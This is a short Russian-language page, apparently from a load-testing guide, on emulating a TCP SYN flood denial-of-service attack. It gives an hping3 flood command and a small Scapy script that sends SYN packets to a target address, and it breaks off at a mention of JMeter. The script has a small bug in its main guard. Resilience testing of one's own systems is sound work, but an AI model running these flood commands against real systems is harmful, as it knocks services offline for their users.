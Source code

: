 # TCP SYN Flood
Техника DoS-атаки, направленная на насыщение сервера ожидающими подтверждениями (SYN) соединениями. В рамках нагрузочного тестирования данной атаки, система подвергается внезапному потоку фальшивых запросов на установление TCP-соединений, что приводит к перегрузке ресурсов и отказу в обслуживании реальных клиентов. Целью тестирования является оценка устойчивости системы к таким массированным атакам и выявление возможных брешей в защите.
#### Методы реализации
Для эмуляции TCP SYN Flood можно использовать такие инструменты, как hping3 или Scapy:
```
bash
hping3 -S --flood -p PORT TARGET_IP
```

```
from scapy.all import *

target_ip = "192.168.1.1"  # Замените адресом целевой системы
num_packets = 1000  # Количество фальшивых пакетов для отправки
def syn_flood():
    for _ in range(num_packets):        
        packet = IP(dst=target_ip)/TCP(dport=80, flags="S")  # Формируем SYN пакет
        send(packet, verbose=False)

if name == "__main__":
    syn_flood()    
    print("TCP SYN Flood атака завершена")
```

Если нет вариантов установить из-за серьезной политики безопасности, то можно реализовать через тот же jmeter:
